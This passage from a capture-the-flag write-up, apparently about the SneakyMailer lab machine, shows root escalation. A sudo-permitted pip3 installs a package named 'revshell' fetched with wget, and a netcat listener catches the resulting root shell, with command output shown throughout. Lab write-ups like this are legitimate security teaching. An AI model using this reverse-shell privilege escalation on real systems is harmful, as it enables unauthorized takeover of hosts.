 

And low can access `user.txt`:



    $ cat user.txt
    13164fcd************************



## Priv: low --\> root

### Enumeration

Listing commands low can run as other users with `sudo -l` shows the
next step very clearly:



    low@sneakymailer:/$ sudo -l
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3



### sudo pip

This is the same privesc as
[Canape](/htb-canape.md#sudo-pip), and really, the same as
the previous step, just way simpler. I'll use Python's webserver to host
my `setup.py` file from the package, and use `wget` on SneakyMailer to
save a copy in `/dev/shm`.

Then I just run with the `install` command passing the current
directory:



    low@sneakymailer:/dev/shm$ sudo pip3 install .
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /dev/shm
    Building wheels for collected packages: revshell
      Running setup.py bdist_wheel for revshell ... -



It hangs here, but at a `nc` listener there's a root shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:57612.
    # id  
    uid=0(root) gid=0(root) groups=0(root)
